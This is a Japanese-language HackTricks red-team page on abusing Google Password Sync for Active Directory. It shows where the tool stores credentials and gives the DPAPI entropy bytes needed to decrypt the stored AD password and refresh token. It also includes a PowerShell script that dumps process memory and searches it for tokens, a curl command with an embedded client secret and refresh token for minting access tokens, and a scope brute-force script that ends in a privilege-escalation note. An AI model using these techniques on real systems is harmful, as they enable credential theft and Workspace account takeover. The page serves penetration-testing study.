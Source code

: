 # GPS - Google Password Sync

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## 基本情報

これは、Googleが提供するバイナリおよびサービスで、**AD**とWorkspace間でユーザーのパスワードを**同期**させるためのものです。ユーザーがADでパスワードを変更するたびに、それがGoogleに設定されます。

`C:\Program Files\Google\Password Sync`にインストールされ、ここで設定用のバイナリ`PasswordSync.exe`と、実行し続けるサービス`password_sync_service.exe`を見つけることができます。

### GPS - 設定

このバイナリ（およびサービス）を設定するには、**Workspace内のスーパ管理者の権限を与える必要があります**：

* Googleで**OAuth**を介してログインし、その後**トークンをレジストリに（暗号化されて）保存します**
* GUIのあるドメインコントローラーでのみ利用可能
* **Workspaceユーザーを管理する権限を持つGCPの**サービスアカウントの資格情報（jsonファイル）を提供する
* これらの資格情報は期限切れにならないため、悪用される可能性があるため非常に悪いアイデア
* SAがGCPで侵害される可能性があるため、WorkspaceへのアクセスをSAに与えるのは非常に悪いアイデア
* GUIのないドメインコントロール用にGoogleが要求
* これらの資格情報もレジストリに保存されます

ADに関しては、現在の**アプリケーションコンテキスト、匿名、または特定の資格情報**を使用するように指示することが可能です。資格情報オプションが選択された場合、**ユーザー名**は**ディスク**内のファイルに保存され、**パスワード**は**暗号化**されて**レジストリ**に保存されます。

### GPS - ディスクからのパスワードとトークンのダンプ

{% hint style="success" %}
[**Winpeas**](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe)は、**GPS**を検出し、設定に関する情報を取得し、**パスワードとトークンを復号化することさえ可能です**。
{% endhint %}

ファイル**`C:\ProgramData\Google\Google Apps Password Sync\config.xml`**には、設定の一部として、構成されたADの**`baseDN`**や使用されている資格情報の**`username`**が見つかります。

レジストリ**`HKLM\Software\Google\Google Apps Password Sync`**には、ADユーザーのための**暗号化されたリフレッシュトークン**と**暗号化されたパスワード**が見つかります（存在する場合）。さらに、トークンの代わりに**SA資格情報**が使用されている場合、それらもそのレジストリアドレスに暗号化されて保存されます。このレジストリ内の**値**は**管理者**のみが**アクセス可能**です。

暗号化された**パスワード**（存在する場合）は、キー**`ADPassword`**内にあり、**`CryptProtectData`** APIを使用して暗号化されています。復号化するには、パスワード同期を設定したのと同じユーザーである必要があり、**`CryptUnprotectData`**を使用する際にこの**エントロピー**を使用します：`byte[] entropyBytes = new byte[] { 0xda, 0xfc, 0xb2, 0x8d, 0xa0, 0xd5, 0xa8, 0x7c, 0x88, 0x8b, 0x29, 0x51, 0x34, 0xcb, 0xae, 0xe9 };`

暗号化されたトークン（存在する場合）は、キー**`AuthToken`**内にあり、**`CryptProtectData`** APIを使用して暗号化されています。復号化するには、パスワード同期を設定したのと同じユーザーである必要があり、**`CryptUnprotectData`**を使用する際にこの**エントロピー**を使用します：`byte[] entropyBytes = new byte[] { 0x00, 0x14, 0x0b, 0x7e, 0x8b, 0x18, 0x8f, 0x7e, 0xc5, 0xf2, 0x2d, 0x6e, 0xdb, 0x95, 0xb8, 0x5b };`\
さらに、これは**`0123456789abcdefghijklmnopqrstv`**という辞書を使用してbase32hexでエンコードされています。

エントロピー値は、ツールを使用して見つかりました。このツールは、**`CryptUnprotectData`**および**`CryptProtectData`**への呼び出しを監視するように設定され、その後、`PasswordSync.exe`を起動して監視するために使用され、設定されたパスワードと認証トークンを最初に復号化し、ツールは両方のケースで使用された**エントロピーの値**を**表示します**：

<figure><img src="../../../.gitbook/assets/telegram-cloud-photo-size-4-5782633230648853886-y.jpg" alt=""><figcaption></figcaption></figure>

これらのAPIへの呼び出しの入力または出力で**復号化された**値を見ることも可能です（Winpeasが動作しなくなった場合に備えて）。

パスワード同期が**SA資格情報で設定されている**場合、それもレジストリ**`HKLM\Software\Google\Google Apps Password Sync`**内のキーに保存されます。

### GPS - メモリからのトークンのダンプ

GCPWと同様に、`PasswordSync.exe`および`password_sync_service.exe`プロセスのメモリをダンプすることが可能で、リフレッシュトークンとアクセストークン（すでに生成されている場合）を見つけることができます。\
ADに設定された資格情報も見つけることができると思います。

<details>

<summary>ダンプ <code>PasswordSync.exe</code> と <code>password_sync_service.exe</code> プロセスを検索してトークンを探す</summary>
```powershell
# Define paths for Procdump and Strings utilities
$procdumpPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\procdump.exe"
$stringsPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\strings.exe"
$dumpFolder = "C:\Users\Public\dumps"

# Regular expressions for tokens
$tokenRegexes = @(
"ya29\.[a-zA-Z0-9_\.\-]{50,}",
"1//[a-zA-Z0-9_\.\-]{50,}"
)

# Show EULA if it wasn't accepted yet for strings
$stringsPath

# Create a directory for the dumps if it doesn't exist
if (!(Test-Path $dumpFolder)) {
New-Item -Path $dumpFolder -ItemType Directory
}

# Get all Chrome process IDs
$processNames = @("PasswordSync", "password_sync_service")
$chromeProcesses = Get-Process | Where-Object { $processNames -contains $_.Name } | Select-Object -ExpandProperty Id

# Dump each Chrome process
foreach ($processId in $chromeProcesses) {
Write-Output "Dumping process with PID: $processId"
& $procdumpPath -accepteula -ma $processId "$dumpFolder\chrome_$processId.dmp"
}

# Extract strings and search for tokens in each dump
Get-ChildItem $dumpFolder -Filter "*.dmp" | ForEach-Object {
$dumpFile = $_.FullName
$baseName = $_.BaseName
$asciiStringsFile = "$dumpFolder\${baseName}_ascii_strings.txt"
$unicodeStringsFile = "$dumpFolder\${baseName}_unicode_strings.txt"

Write-Output "Extracting strings from $dumpFile"
& $stringsPath -accepteula -n 50 -nobanner $dumpFile > $asciiStringsFile
& $stringsPath -n 50 -nobanner -u $dumpFile > $unicodeStringsFile

$outputFiles = @($asciiStringsFile, $unicodeStringsFile)

foreach ($file in $outputFiles) {
foreach ($regex in $tokenRegexes) {

$matches = Select-String -Path $file -Pattern $regex -AllMatches

$uniqueMatches = @{}

foreach ($matchInfo in $matches) {
foreach ($match in $matchInfo.Matches) {
$matchValue = $match.Value
if (-not $uniqueMatches.ContainsKey($matchValue)) {
$uniqueMatches[$matchValue] = @{
LineNumber = $matchInfo.LineNumber
LineText   = $matchInfo.Line.Trim()
FilePath   = $matchInfo.Path
}
}
}
}

foreach ($matchValue in $uniqueMatches.Keys) {
$info = $uniqueMatches[$matchValue]
Write-Output "Match found in file '$($info.FilePath)' on line $($info.LineNumber): $($info.LineText)"
}
}

Write-Output ""
}
}
```
</details>

### GPS - リフレッシュトークンからアクセストークンを生成する

リフレッシュトークンを使用して、次のコマンドで指定されたクライアントIDとクライアントシークレットを使用してアクセストークンを生成することができます。
```bash
curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
--data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
https://www.googleapis.com/oauth2/v4/token
```
### GPS - スコープ

{% hint style="info" %}
リフレッシュトークンを持っていても、アクセストークンのためにリクエストできるスコープは、**アクセストークンを生成しているアプリケーションでサポートされているスコープのみ**です。

また、リフレッシュトークンはすべてのアプリケーションで有効ではありません。
{% endhint %}

デフォルトでは、GPSはユーザーとしてすべての可能なOAuthスコープにアクセスできないため、次のスクリプトを使用して、`refresh_token`を使用して`access_token`を生成するために使用できるスコープを見つけることができます：

<details>

<summary>スコープをブルートフォースするためのBashスクリプト</summary>
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope           \r"
if ! curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
--data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
--data "scope=$scope" \
https://www.googleapis.com/oauth2/v4/token 2>&1 | grep -q "error_description"; then
echo ""
echo $scope
echo $scope >> /tmp/valid_scopes.txt
fi
done

echo ""
echo ""
echo "Valid scopes:"
cat /tmp/valid_scopes.txt
rm /tmp/valid_scopes.txt
```
</details>

そして、これが執筆時に得られた出力です：
```
https://www.googleapis.com/auth/admin.directory.user
```
どのスコープも指定しない場合と同じです。

{% hint style="danger" %}
このスコープでは、**既存のユーザーのパスワードを変更して権限を昇格させることができます**。
{% endhint %}

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**をフォローしてください。**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してハッキングトリックを共有してください。**

</details>
{% endhint %}
